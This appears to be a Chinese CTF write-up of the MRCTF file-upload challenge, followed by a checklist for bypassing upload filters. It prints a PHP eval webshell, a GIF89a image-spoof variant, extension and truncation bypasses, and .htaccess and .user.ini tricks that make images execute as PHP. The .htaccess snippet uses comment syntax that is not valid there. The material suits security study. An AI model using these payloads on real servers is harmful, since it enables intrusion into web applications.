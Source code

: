 #4.5做题打卡



#### [MRCTF]你传你🐎呢——文件上传+格式转换

* 打开网址，可以看到上传文件，上传普通的一句话木马，被过滤，打开BP，将传入格式改为`image/jpeg`，还是被过滤，将文件后缀名改掉，php3、php4、phpt、phps、phtml、phar都不行，他只让上传jpg格式图片，而且是后端过滤掉了文件后缀
* 传入 `.htaccess` 文件（该文件可以将jpg图片解析为php文件），发现上传成功，于是我们可以把一句话木马放在jpg文件中，这里只需改个后缀即可，例如1.jpg
* 然后上传发现成功上传，我们就可以通过蚁剑进行连接，这里连接url地址写当前目录下的1.jpg文件即可，得到flag



<font color=blue>总结：</font>

* 这道题我总结一下做文件上传题的一点经验/步骤：（这种题一定是在BP种完成的，不要在网页中搞）

  * 上传一个简单的一句话木马

    ```PHP
    <script language="php">@eval($_POST['ben'])</script>
    ```

  * 考虑前端、后端过滤，**前端过滤可以删掉JS代码，后端过滤抓包**

  * 抓包考虑改 `Contect-type`，看它要求上传什么格式，一般有：

    `image/jpeg`、`image/png`、`image/gif`等等

  * 之后可以考虑图片欺骗：

    ```php
    GIF89a
    <script language="php">@eval($_POST['ben'])</script>
    ```

  * 如果还是过滤或者解析失败，也可以考虑改`.php`文件后缀：

    `php3`、`php4`、`php5`、`phtml`、`phps`、`phar`

    `大小写`

    `双写`

    `空格`

    `::DATA`

    `%00截断`

  * 后缀名过滤，就只能考虑上传jpg图片后缀名的文件了：（修改多个地方尝试）

    * 上传 `.user.ini` 文件，此前提是上传目录中已有php文件

      ```php
      auto_prepend_file=xxx.xxx
      ```

    * 上传 `.htaccess`<font color=red>（注意这里只有文件后缀，没有文件名）</font> 文件，将上传的jpg文件解析为php文件，内容为：

      ```php
      //<FilesMatch "1.jpg">
      SetHandler application/x-httpd-php
      //</FilesMatch>
      ```



